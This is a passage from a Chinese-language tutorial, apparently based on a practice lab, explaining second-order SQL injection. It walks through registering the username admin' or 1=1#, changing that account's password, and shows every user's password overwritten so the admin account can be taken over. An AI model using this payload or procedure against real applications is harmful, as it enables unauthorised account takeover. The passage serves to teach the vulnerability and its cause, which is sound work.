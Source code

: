 可以看到，从数据库取出来的用户名并没有转义，而我们又可以向数据库插入可控的用户名，即输入的用户名第一次被转义（非过滤），但拿出来使用时并未做再转义，这种**写数据时转义，读数据时又未转义，造成了二次注入漏洞的发生**。如果第一次存储时直接将恶意字符过滤掉的话，那第二次使用就没有问题。

因此，我们可以采用如下的攻击步骤。

（1）注册一个专门用来攻击的用户名，比如 admin' or 1=1#，密码为 test。

<Image alt="Drawing 3.png" src="https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7uyADPwTAAAt1pr_DYg213.png"/>  
图 4：注册新的用户名

（2）登录新注册的账号。

<Image alt="Drawing 4.png" src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7vSAQ8bBAAAv5Nno1cw204.png"/>  
图 5：登录新账号

（3）修改上面注册的用户密码为 hacker。

<Image alt="Drawing 5.png" src="https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7vmAOmU8AABWHp3fjoI705.png"/>  
图 6：修改密码

（4）最终用户名 admin' or 1=1# 被注入 SQL 执行，导致所有用户密码都被修改为 hacker。

```sql
mysql> select * from users;
+----+----------------+----------+
| id | username       | password |
+----+----------------+----------+
|  1 | Dumb           | hacker   |
|  2 | Angelina       | hacker   |
|  3 | Dummy          | hacker   |
|  4 | secure         | hacker   |
|  5 | stupid         | hacker   |
|  6 | superman       | hacker   |
|  7 | batman         | hacker   |
|  8 | admin          | hacker   |
|  9 | admin1         | hacker   |
| 10 | admin2         | hacker   |
| 11 | admin3         | hacker   |
| 12 | dhakkan        | hacker   |
| 14 | admin4         | hacker   |
| 15 | 1              | hacker   |
| 17 | admin' or 1=1# | hacker   |
+----+----------------+----------+
15 rows in set (0.00 sec)
```

（5）尝试用密码 hacker 登录账号 admin，如下所示，登录成功！

<Image alt="Drawing 6.png" src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7wKAQr6TAAE5rTn8WyU344.png"/>  
图 7： 登录成功

你看，从前面一步步地寻找漏洞，到发现 SQL 注入漏洞，并成功利用漏洞登录账号，哪怕不知道正确的密码是什么，也可以登录，这正是 SQL 注入神奇的地方所在。
